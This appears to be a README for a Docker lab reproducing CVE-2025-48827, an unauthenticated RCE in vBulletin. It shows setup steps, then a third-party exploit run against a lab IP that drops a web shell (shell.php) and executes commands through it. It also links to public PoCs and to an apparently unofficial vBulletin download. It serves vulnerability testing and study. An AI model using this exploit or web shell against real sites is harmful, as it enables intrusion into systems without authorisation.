 # CVE-2025-48827
vBulletin 5.0.0 through 5.7.5 and 6.0.0 through 6.0.3 allows unauthenticated users to invoke protected API controllers' methods when running on PHP 8.1 or later, as demonstrated by the /api.php?method=protectedMethod pattern, as exploited in the wild in May 2025.

## Notes

## Metrics
Base Score: 10.0 (CRITICAL) 

## Vulnerability Environment
Build and run:
```bash
docker compose build
docker compose up -d
```
Stop Environment and remove network:
```bash
docker compose down
```
## Detection and exploitation example
### Setup vBulletin manualy
1. Up compose Environment
2. Go to container_ip:80
3. Set common config:
    - DB_HOST: "db"
    - DB_NAME: "vulnforum"
    - DB_USER: "vbulletin"
    - DB_PASSWORD: "vbulletin"
    - EMAIL: any 
    - Other option: default
4. Remove makeconfig.php:
```shell
docker exec -it <container_id> rm core/install/makeconfig.php
```
5. Add new user
6. While you open Admin panel, you got an error:
```shell
docker exec -it <container_id> mv core/install/ core/install.bak
```

### Use exploit by 0xgh057r3c0n
```shell
git clone https://github.com/0xgh057r3c0n/CVE-2025-48827

python3 vbulletin.py http://172.90.240.2/

      __________      .__  .__          __  .__      ___________________ _______>
___  _\______   \__ __|  | |  |   _____/  |_|__| ____\______   \_   ___ \\_   __>
\  \/ /|    |  _/  |  \  | |  | _/ __ \   __\  |/    \|       _/    \  \/ |    _>
 \   / |    |   \  |  /  |_|  |_\  ___/|  | |  |   |  \    |   \     \____|     >
  \_/  |______  /____/|____/____/\___  >__| |__|___|  /____|_  /\______  /______>
              \/                     \/             \/       \/        \/       >

                             vBulletin RCE - Web Shell Dropper by 0xgh057r3c0n

[+] RCE payload injected.
[+] shell.php dropped at: http://172.90.240.2/shell.php
[!] Launch commands like:
    curl 'http://172.90.240.2/shell.php?cmd=whoami'

[!] Entering interactive mode (type 'exit' to quit)
(shell:.)$ whoami
[DEBUG] Full response:
www-data
```

## Exploits and PoCs
https://github.com/0xgh057r3c0n/CVE-2025-48827
https://karmainsecurity.com/pocs/vBulletin-replaceAdTemplate-RCE.php

## Nuclei Template

## CTF Rooms

## References
[NIST: CVE-2025-48827](https://nvd.nist.gov/vuln/detail/CVE-2025-48827)  
[karmainsecurity: Don't Call That "Protected" Method: Dissecting an N-Day vBulletin RCE](https://karmainsecurity.com/dont-call-that-protected-method-vbulletin-rce)  
[Quick Overview: Installing vBulletin](https://forum.vbulletin.com/forum/vbulletin-6/installation-upgrades/4483267-quick-overview-installing-vbulletin)  

https://enxf.cc/threads/vbulletin-6-0-3-is-available-for-download.18091/
https://enxf.cc/attachments/vb6_6-0-3-rar.39414/


# Testing
docker build -t test-vb6 .   
docker run -it -p 8080:8080 test-vb6:latest /bin/bash 
